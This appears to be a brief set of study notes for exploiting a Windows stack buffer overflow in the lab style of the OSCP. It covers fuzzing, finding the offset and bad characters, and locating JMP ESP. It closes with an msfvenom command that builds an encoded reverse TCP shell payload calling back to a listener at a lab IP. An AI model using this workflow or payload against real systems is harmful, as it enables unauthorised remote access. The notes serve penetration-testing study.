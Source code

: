 1. Fuzz
- Use Spiking
- Use simple python script
2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
```
msf-pattern_create -l 800
msf-pattern_offset -l 800 -q 42306142
```
3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
4. Find module and JMP ESP
- Use metasploit nasm_shell
- Use debugger and mona to find JMP ESP
5. Create shellcode
 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```

